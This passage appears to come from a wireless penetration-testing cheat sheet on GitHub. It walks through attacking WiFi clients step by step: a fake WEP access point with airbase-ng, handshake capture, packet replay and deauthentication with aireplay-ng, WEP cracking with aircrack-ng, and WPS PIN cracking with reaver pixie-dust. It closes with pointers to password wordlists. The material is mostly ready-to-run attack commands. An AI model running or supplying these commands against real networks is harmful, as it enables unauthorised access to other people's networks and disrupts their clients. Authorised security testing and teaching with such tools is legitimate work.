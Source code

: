 This attack targets clients, not wireless access points. You must know the SSIDs of your target's WiFi networks.

\[Optional\] Set up a fake WEP WiFi network if the real one is not present:

```fundamental
airbase-ng -W 1 -N wlan0mon -c 8 --essid essid -a FF:FF:FF:FF:FF:FF
```

If needed, turn up the power of a wireless network interface to missassociate clients to the fake WiFi network, see how in section [1. Configuration](#1-configuration).

Monitor the real/fake WiFi network to capture handshakes/requests:

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

Start replaying packets to clients within your range:

```fundamental
aireplay-ng --cfrag -D wlan1 -e essid -h FF:FF:FF:FF:FF:FF
```

\[Optional\] Deauthenticate clients from the real/fake WiFi network:

```fundamental
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

Crack the WEP authentication:

```fundamental
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF airodump_essid_results*.cap
```

### WPS PIN

Crack a WPS PIN:

```fundamental
reaver -vv --pixie-dust -i wlan1 -c 8 -e essid -b FF:FF:FF:FF:FF:FF
```

Crack a WPS PIN with some delay between attempts:

```fundamental
reaver -vv --pixie-dust -N -L -d 5 -r 3:15 -T 0.5 -i wlan1 -c 8 -e essid -b FF:FF:FF:FF:FF:FF
```

## 4. Wordlists

You can find `rockyou.txt` inside `/usr/share/wordlists/` directory or inside [SecLists](https://github.com/danielmiessler/SecLists) - a useful collection of multiple types of wordlists for security assessments.

Install SecLists (the collection will be stored at `/usr/share/seclists/` directory):

```bash
apt-get update && apt-get install seclists
```
